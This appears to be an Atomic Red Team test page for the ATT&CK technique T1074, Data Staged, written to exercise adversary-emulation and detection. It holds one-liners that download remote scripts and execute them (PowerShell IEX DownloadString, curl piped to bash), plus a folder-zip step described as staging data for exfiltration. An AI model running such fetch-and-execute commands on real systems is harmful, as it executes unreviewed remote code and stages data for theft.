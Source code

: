 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell](#atomic-test-3---zip-a-folder-with-powershell)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat') > pi.log
```



<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


#### Run it with `bash`! 
```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.sh | bash -s > /tmp/discovery.log
```



<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell
use living off the land tools to encrypt and zip a file for exfiltration

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
Compress-Archive -Path $PathToAtomicsFolder\T1074\bin\Folder_to_encrypt -DestinationPath $env:TEMP\Folder_to_encrypt.zip
```


#### Cleanup Commands:
```
Remove-Item -Path $env:TEMP\Folder_to_encrypt.zip
```

<br/>
